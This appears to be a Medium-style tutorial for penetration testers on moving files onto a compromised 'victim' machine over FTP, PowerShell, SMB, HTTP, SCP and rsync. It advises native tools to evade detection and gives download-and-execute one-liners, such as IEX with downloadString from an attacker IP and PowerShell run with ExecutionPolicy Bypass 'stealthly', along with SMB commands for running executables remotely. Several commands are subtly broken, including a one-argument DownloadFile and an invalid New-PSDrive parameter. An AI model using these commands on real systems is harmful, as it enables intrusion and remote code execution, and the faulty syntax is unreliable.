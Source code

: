 <img class="graf-image" data-height="371" data-image-id="1*HNC0lT4gPMDU8uH0fyjRyw.png" data-is-featured="true" data-width="680" src="https://cdn-images-1.medium.com/max/800/1*HNC0lT4gPMDU8uH0fyjRyw.png"/>

Pentester’s Guide to Performing File Transfers
==============================================

Foreword
========

To avoid detection, it is best to use tools that are native to the victim’s computer.

FTP with Windows Host
=====================

While having a shell on the Windows machine, start an FTP server on your host machine. Follow these steps if you don’t already have FTP server installed:


```
sudo apt-get install vsftpd  
sudo service vsftpd start  
service vsftpd status #status should be active
```
To check if your server is working, type `ftp localhost.` If you see the message “Connected to localhost”, your FTP server is running.

<img class="graf-image" data-height="77" data-image-id="1*ehYiaPXjraslOYhNqIv7Zw.png" data-width="225" src="https://cdn-images-1.medium.com/max/800/1*ehYiaPXjraslOYhNqIv7Zw.png"/>

Accessing File With Interactive Shell
-------------------------------------

If you have an interactive shell on the Windows machine, run this command.


```
cscript wget.vbs http://<YOUR IP>/<PATH TO FILE> <FILENAME TO SAVE AS>
```
Accessing File With Non-Interactive Shell
-----------------------------------------

If you don’t have an interactive shell, you can’t start PowerShell.exe. A workaround is to create a PowerShell script and execute it:


```
echo $storageDir = $pwd > wget.ps1  
echo $webclient = New-Object System.Net.WebClient >>wget.ps1  
echo $url = "http://<YOUR IP>/<PATH TO FILE>" >>wget.ps1  
echo $file = "output-file.exe" >>wget.ps1  
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
To invoke`wget.ps1`, call


```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

```
-ExecutionPolicy Bypass -noLogo -NonInteractive --- stealthly
```

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<YOUR IP>/<FILENAME>')"
```

```
IEX(New-Object Net.WebClient).downloadString('http://<YOUR IP>/<FILENAME>')
```
<img class="graf-image" data-height="428" data-image-id="1*nBHrLvu-D9RNlMsbTG3Wsg.jpeg" data-width="760" src="https://cdn-images-1.medium.com/max/800/1*nBHrLvu-D9RNlMsbTG3Wsg.jpeg"/>

Getting Files Through PowerShell
================================

On your Kali Linux machine, make a copy of the file you want to send to `/var/www/html/` . On the Window’s machine, execute the following:


```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.10.128/unko.txt','C:\Users\Administrator\Desktop\transferme.txt')"
```

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.119.146/gori.ps1')"
```
File Transfer With SMB
======================

Method 1
--------

Get `smbserver.py`from [Impacket](https://github.com/SecureAuthCorp/impacket) and run the following on your Kali Linux machine:


```
smbserver.py gori $(pwd) -smb2support -user gori -pass gorigori
```
Run this on the victim’s machine:


```
New-PSDrive -Name "gori" -PSProvider "FileSystem" -gori "\\<YOUR IP>\gori"
```
Method 2
--------

Run this on your Kali machine:


```
smbserver.py kali .
```
Run this on the victim’s machine:


```
On victim's \\<YOUR IP ADDRESS>\kali\FILE\_NAME.exe "whoami" # "whoami" confirms that it is running
```
<img class="graf-image" data-height="626" data-image-id="1*i6K6JFM5TTxSFf4b_ermuQ.png" data-width="626" src="https://cdn-images-1.medium.com/max/800/1*i6K6JFM5TTxSFf4b_ermuQ.png"/>

File Transfer With an HTTP Server
=================================

On your machine run:


```
python3 -m http.server 80
```
This will start an HTTP server on port 80 with the root of the HTTP server being in the directory that you executed the command from. To get a file, run this on the victim’s machine:


```
wget http://<YOUR IP>/path/to/file.txt
```
File Transfer with SCP and RSYNC
================================

Both of these methods of file transfer occur over SSH. Secure Copy Protocol (SCP) is being deprecated, however, if you’re able to use it, the syntax is fairly simple.


```
scp <SOURCE> <DESTINATION>
```
In this example, we are using SCP to copy a file from a remote host to the working directory of our local machine such that our computer is on the receiving end.


```
scp username@ip_address:/home/username/filename
```
If you are looking to transfer a file from your computer to the remote host, the following syntax can be used:


```
scp filename username@ip_address:/home/username
```
The same commands can be used with RYSNC by simply replacing `scp` with `rsync` .


```
rsync <SOURCE> <DESTINATION>
```
Conclusion
==========

There are countless ways to transfer files between two computers. Among the most common methods are HTTP and FTP, but if those don’t work, there is a chance that some of the other options here will. Some honorable mentions that I didn’t go into detail on are SSHFS, SFTP, Winscp, and Samba. I hope that you were able to find value in this article and remember to never stop learning.